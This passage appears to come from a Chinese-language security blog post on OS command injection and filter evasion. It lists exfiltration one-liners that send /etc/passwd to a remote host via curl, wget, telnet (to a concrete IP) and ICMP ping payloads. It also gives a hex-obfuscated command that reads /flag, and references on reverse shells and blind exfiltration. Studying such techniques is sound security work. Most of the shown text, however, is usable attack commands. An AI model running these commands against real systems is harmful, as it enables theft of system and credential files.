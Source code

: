 ```bash
curl http://ip:port -F a=@/etc/passwd
```

同样可以通过`curl`使用`ftp`协议，同理`wget`、`telnet`当然也是可以的

```bash
wget --post-data="`cat /etc/passwd`" http://ip:port

wget --post-file=/etc/passwd http://ip:port
```

```bash
telnet 106.14.153.173 2015 < /etc/passwd
```



使用`ICMP`报文

```bash
cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
```



###	更正

2019/2/13，更正了文章几处错误，已更新文章内容错误处

```bash
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")	#可以执行
```



###	参考

[Web Application Firewall (WAF) Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

[Command Injection - OWASP](https://www.owasp.org/index.php/Command_Injection)

[coomix](https://github.com/commixproject/commix)

[Web 安全漏洞之 OS 命令注入](https://juejin.im/post/5bdf02c9e51d450540286fbf)

[linux特殊符号大全](https://www.cnblogs.com/balaamwe/archive/2012/03/15/2397998.html)

[小密圈专题(2)-命令执行绕过](https://www.cnblogs.com/iamstudy/articles/command_exec_tips_1.html)

[linux bash shell中，单引号、 双引号，反引号（``）的区别及各种括号的区别](https://blog.csdn.net/miyatang/article/details/8077123)

[由ISCC2018-Web-Ping学习命令注入](http://poetichacker.com/writeup/%e7%94%b1iscc2018-web-ping%e5%ad%a6%e4%b9%a0%e5%91%bd%e4%bb%a4%e6%b3%a8%e5%85%a5.html)

[shelling](https://github.com/ewilded/shelling)

[HITCON CTF 2017-BabyFirst Revenge-writeup](https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/)

[LINUX下反弹SHELL的种种方式](https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html)

[Linux渗透之反弹Shell命令解析](https://www.anquanke.com/post/id/85712)

[技术分析：攻击者是如何利用系统命令盲注实现“拖库”的？](https://www.freebuf.com/articles/web/88354.html)